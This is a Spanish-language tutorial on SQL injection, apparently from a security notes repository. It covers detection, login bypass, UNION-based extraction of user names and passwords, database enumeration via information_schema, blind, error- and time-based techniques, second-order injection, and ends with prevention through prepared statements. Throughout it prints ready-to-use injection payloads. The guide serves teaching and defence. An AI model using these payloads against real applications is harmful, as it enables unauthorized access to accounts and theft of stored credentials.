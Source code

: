 # Inyecciones SQLi (SQL Injection)


---

##  Introducción

En este documento examinaremos de forma práctica y didáctica las vulnerabilidades en bases de datos SQL —conocidas como **inyecciones SQL (SQLi)**—. Las inyecciones SQL consisten en la inserción de consultas o comandos maliciosos en puntos de entrada de una aplicación web, aprovechando validaciones insuficientes para alterar la lógica de ejecución en sistemas de gestión de bases de datos como [Mariadb](../SQL/Mariadb) o [SQLite3](../SQL/SQLite3/). Cuando estas técnicas se aplican en entornos de producción web, pueden permitir desde la exfiltración de información sensible hasta la modificación no autorizada del comportamiento de la aplicación, afectando la confidencialidad, integridad y disponibilidad de los datos. Para ampliar el contexto teórico y práctico, consulta la sección general sobre [Bases de datos](../../Bases%20de%20datos/).

[Visitar apartado sobre SQLi](../../SQLi)

Objetivos de este capítulo:

- Entender qué es una inyección SQL y cómo se explota.

- Identificar vectores típicos y entradas vulnerables en aplicaciones web.


---

## ¿Qué es la inyección SQL?

> La inyección SQL (**SQLi**) es una vulnerabilidad que permite a un atacante manipular las consultas SQL de una aplicación para acceder, modificar o eliminar datos en una base de datos. Se produce cuando la entrada del usuario no se valida ni se sanitiza correctamente, permitiendo la ejecución de código SQL malicioso.


---

## Cómo detectar vulnerabilidades de inyección SQL

Algunos métodos para identificar si una aplicación es vulnerable a SQLi incluyen:

- **Pruebas manuales:** Insertar caracteres especiales (`'`, `"`, `;`, `--`, `#`, etc.) en los campos de entrada y observar errores.
- **Errores de la base de datos:** Mensajes como `syntax error` pueden indicar una vulnerabilidad.
- **Automatización:** Uso de herramientas como [SQLmap](sqlmap.md) para detectar y explotar SQLi.


---

## Recuperar datos ocultos

A veces, los datos de la base de datos están ocultos, pero la inyección SQL puede revelar información oculta al modificar consultas, por ejemplo:

```sql
SELECT * FROM productos WHERE id = '1' OR '1'='1';
```

```url
' OR 1=1-- -
```

```url
' OR '1'='1
```


---

## Subvertir la lógica de la aplicación

Los atacantes pueden modificar consultas para eludir la autenticación:

```sql
SELECT * FROM usuarios WHERE usuario = 'admin' AND clave = '' OR '1'='1';
```

Esto permite iniciar sesión sin conocer la contraseña real.

```lua
Username = admin' OR 1=1-- -
Password = ' OR 1=1-- -
```


---

## Inyección SQL UNION attacks

Permite unir múltiples consultas SQL para extraer datos de otras tablas.

### Determinar el número de columnas requeridas

```sql
ORDER BY nº; -- Probamos incrementando 'n' hasta encontrar un error
```

```url
' ORDER BY nº-- -
```

### Encontrar columnas con un tipo de datos útil

```sql
UNION SELECT NULL, NULL, 'texto';
```

```url
' UNION SELECT NULL,NULL,'test'-- -
```


### Uso de un ataque UNION de inyección SQL para recuperar datos interesantes

```sql
UNION SELECT nombre, clave FROM usuarios;
```

```url
' UNION SELECT nombre,clave FROM usuarios-- -
```


### Recuperar múltiples valores dentro de una sola columna

```sql
UNION SELECT nombre || ' - ' || clave FROM usuarios;
```

```url
' UNION SELECT nombre || ' - ' || clave FROM usuarios-- -
```

---

## Examinar la base de datos

Los atacantes pueden obtener información sobre la estructura de la base de datos.

### Identificar la base de datos en uso

```url
' UNION SELECT @@version-- -  # Para MySQL
' UNION SELECT version()-- -  # Para PostgreSQL
' UNION SELECT banner FROM v$version-- -  # Para Oracle
```

### Listar tablas y columnas

```url
' UNION SELECT table_name FROM information_schema.tables-- -
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='usuarios'-- -
```


---

## Inyección SQL ciega

Cuando la aplicación no devuelve errores directos, se pueden usar técnicas como:

### Explotar la inyección SQL ciega desencadenando respuestas condicionales

```sql
AND 1=1 -- [Devuelve verdadero]
AND 1=2 -- [Devuelve falso]
```

### Inyección SQL basada en errores

Forzar la aplicación a mostrar errores:

```sql
AND 1=CAST((SELECT clave FROM usuarios LIMIT 1) AS INT);
```

### Explotar la inyección SQL ciega desencadenando retrasos de tiempo

```sql
IF(1=1, SLEEP(5), 0);
```

### Explotar la inyección SQL ciega utilizando técnicas fuera de banda (OAST)

Enviar consultas a servidores externos para filtrar datos.

---

## Inyección SQL en diferentes contextos

- **En URLs:** `https://victima.com/perfil?id=1' OR '1'='1`.
- **En formularios:** Campos de login vulnerables.
- **En encabezados HTTP:** Manipulación de cookies o User-Agent.


---

## Inyección SQL de segundo orden

Los datos maliciosos se almacenan en la base de datos y ejecutan la inyección en otro contexto.

Ejemplo: Un usuario malicioso registra su nombre como:

```sql
admin' --
```
Cuando un administrador lo consulta en otra página, la inyección se ejecuta.


---

##  Cómo prevenir la inyección SQL

**Usar consultas preparadas** con `?` o `bind_param()`:

```sql
SELECT * FROM usuarios WHERE usuario = ? AND clave = ?;
```

**Validar y sanitizar entradas del usuario.**
**Principio de menor privilegio:** No usar cuentas con permisos excesivos.
**Firewalls de aplicaciones web (WAF).**


---

**Conclusión:** La inyección SQL sigue siendo una de las vulnerabilidades más peligrosas, pero con buenas prácticas y medidas de seguridad adecuadas, se puede mitigar el riesgo de ataque.
